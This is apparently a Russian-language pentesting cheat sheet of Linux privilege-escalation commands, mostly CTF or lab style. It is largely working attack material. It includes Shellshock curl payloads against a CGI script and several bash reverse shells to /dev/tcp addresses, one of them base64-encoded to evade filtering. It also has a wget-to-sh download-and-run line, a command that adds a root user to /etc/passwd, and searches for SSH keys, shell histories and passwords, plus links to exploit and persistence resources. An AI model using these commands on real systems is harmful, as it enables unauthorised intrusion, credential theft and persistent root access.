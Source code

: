 # Скрипты повышения привелегий 

        https://github.com/rebootuser/LinEnum

        https://github.com/rebootuser/LinEnum.git

        https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

        wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

# enumeration

дистрибутив;

        cat /etc/issue
        cat /etc/*-release

версия ядра и разрядность;
       
        cat /proc/version
        uname -a

сетевые интерфейсы, порты, службы;
        
        netstat
        ss -tulpn

процессы
       
        ps aux
        ps -ef
        pspy64 (Надо скачивать)

        https://github.com/DominicBreuker/pspy

        wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s       

Файлы, которые стоит проверить

        /home/user/.bash_history
        /home/user/password.txt
        /home/user/.history
        /home/user/.mysql_history
        /home/user/.ssh/id_rsa

# Разрешенные пермишены

        Sudo -l

        getcap -r / 2>/dev/null


        
curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh

curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

echo bmMgMTkyLjE2OC41MC4xMjMgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | bash   (обход фильтрации)



https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php   (Лучший PHP)

https://www.revshells.com/


# Повысить до tty интелектуальной оболочки командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа

        find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
        find / -type f -user emily 2>/dev/null
# Найти все файлы с пермишеном S

        find / -user root -perm -4000 -exec ls -ldb {} \;

        find / -user root -perm -u=s -type f 2>/dev/null

        find / -perm -u=s 2>/dev/null
# найти файл по имени

        find / -name "mysql*"

# ПОИСК ПАРОЛЕЙ

        cat * | grep -i passw*

        grep -r "passw".

        grep -rni 'enter_network' (поиск везде от текущей)

        for i in $(grep -oP "('.*?')" -R . --no-filename);do x=$(echo -n $i | ent| grep Entropy| awk '{print $3}' ); echo "$x $i"; done | sort -n

(поиск всего, заключенного в  '   ' особенно для паролей с применением ентропии)

        grep -E '[A-Z]{1,9}[-_][a-z]{1,9}' -R .




# pkexec EXPLOIT

Как понять, подвержены ли ваши дистрибутивы уязвимости pkexec:

whereis pkexec

which pkexec

ls -la /usr/bin/pkexec

find / -type f -name pkexec

poc - https://github.com/arthepsy/CVE-2021-4034

# Полезные комманды Линукс

        https://putty.org.ru/articles/unix-linux-ref

# открыть gui 
        open .

# Добавление пользователя с правами root в /etc/passwd

        echo "boot:$(openssl passwd -6 -salt boot password123):0:0:boot:/root:/bin/bash" >> /etc/passwd

# Закрепление в системе

        https://habr.com/ru/articles/568298/
        https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md
